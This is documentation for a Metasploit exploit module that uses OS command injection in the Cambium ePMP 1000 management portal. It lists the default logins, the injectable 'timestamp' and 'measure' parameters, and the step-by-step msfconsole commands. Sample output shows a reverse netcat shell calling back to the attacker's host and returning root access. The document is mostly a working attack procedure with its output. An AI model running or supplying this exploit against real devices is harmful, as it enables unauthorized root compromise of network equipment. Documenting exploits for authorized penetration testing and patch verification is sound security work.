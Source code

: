 This module exploits an OS Command Injection vulnerability in Cambium ePMP 1000 device management portal. It requires any one of the following login credentials - admin/admin, installer/installer, home/home - to set up a reverse netcat shell. This module injects the payload in 'timestamp' parameter. Alternatively, a second, vulnerable parameter 'measure' can also be used. The module has been tested on versions 3.1-3.5-RC7.

Note: `cmd/unix/reverse_netcat` is the only payload that seems to work and is stable. After the session is opened, there may be a slight delay in response after first command is issued. There are no delays in receiving responses to subsequent command(s). It is recommended to use 'exploit -j'.

## Verification Steps

1. Do: ```use exploit/unix/http/epmp1000_get_chart_cmd_shell```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set LHOST [IP]```
5. Do: ```exploit -j```

## Sample Output

  ```
msf > use use exploit/unix/http/epmp1000_get_chart_cmd_shell
msf exploit(epmp1000_get_chart_cmd_shell) > set RHOST 192.168.0.2
msf exploit(epmp1000_get_chart_cmd_shell) > set RPORT 80
msf exploit(epmp1000_get_chart_cmd_shell) > set LHOST 192.168.0.104
msf exploit(epmp1000_get_chart_cmd_shell) > exploit -j

[*] Started reverse TCP handler on 192.168.0.104:4444
[+] SUCCESSFUL LOGIN - 192.168.0.2:80 - "installer":"installer"
[*] Sending payload...
[*] Command shell session 5 opened (192.168.0.104:4444 -> 192.168.0.2:41941) at 2017-12-02 05:05:00 +0700

msf exploit(epmp1000_get_chart_cmd_shell) > sessions -l

Active sessions
===============

  Id  Type            Information  Connection
  --  ----            -----------  ----------
  5   shell cmd/unix               192.168.0.104:4444 -> 192.168.0.2:41941 (192.168.0.2)

msf exploit(epmp1000_get_chart_cmd_shell) > sessions -i 5
[*] Starting interaction with 5...

id
uid=0(root) gid=0(root)

  ```
